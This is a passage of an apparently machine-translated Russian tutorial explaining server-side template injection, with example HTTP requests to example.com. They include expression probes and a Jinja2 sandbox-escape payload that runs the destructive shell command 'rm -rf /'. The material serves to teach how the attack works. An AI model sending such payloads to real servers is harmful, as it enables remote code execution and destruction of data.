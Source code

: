 

В этом примере `query` параметр используется для отправки пользовательских данных в шаблон на стороне сервера.

Злоумышленник может воспользоваться этим, отправив полезную нагрузку, которая вводит команды оболочки:

```none
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

query={{5*'5'}}
```



В этой полезной нагрузке злоумышленник вводит выражение ‘`{{5*'5'}}`‘ в самый ‘`query`‘ параметр, который будет оцениваться серверным шаблонизатором. Это приведет к тому, что сервер вернет результат выражения, который представляет собой строку ‘`"55555"`‘.

Злоумышленник также может вводить дополнительные вредоносные команды, такие как:

```none
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

query={{''.__class__.__mro__[1].__subclasses__()[313].__init__.__globals__['__builtins__']['__import__']('os').system('rm -rf /')}}
```



В этой полезной нагрузке злоумышленник вводит код, который использует ‘`ос`‘ модуль для выполнения команды оболочки, которая удалит все файлы на сервере. Очевидно, что это очень опасная полезная нагрузка, но она иллюстрирует потенциальный ущерб, который может быть нанесен атакой SSTI.

**• Инъекция выражения:**

**ПОЛУЧИТЬ запрос**

В этом типе атаки SSTI злоумышленник может внедрить вредоносное выражение в шаблон на стороне сервера, что позволяет ему выполнять произвольный код. Вот пример запроса GET в Burp Suite с уязвимостью expression injection SSTI:

```none
GET /search?q={{7*7}} HTTP/1.1
Host: example.com
```



В этом примере ‘`{{7*7}}`‘ значение используется для введения вредоносного выражения, которое будет выполнено на сервере. Если шаблон на стороне сервера не выполняет надлежащую очистку и проверку этих входных данных, злоумышленник потенциально может внедрить другие выражения или код, которые могут быть выполнены на сервере.

**ОТПРАВИТЬ запрос**

В этом типе атаки SSTI злоумышленник может вводить произвольные выражения в шаблон на стороне сервера, что позволяет им выполнять выражения на сервере.
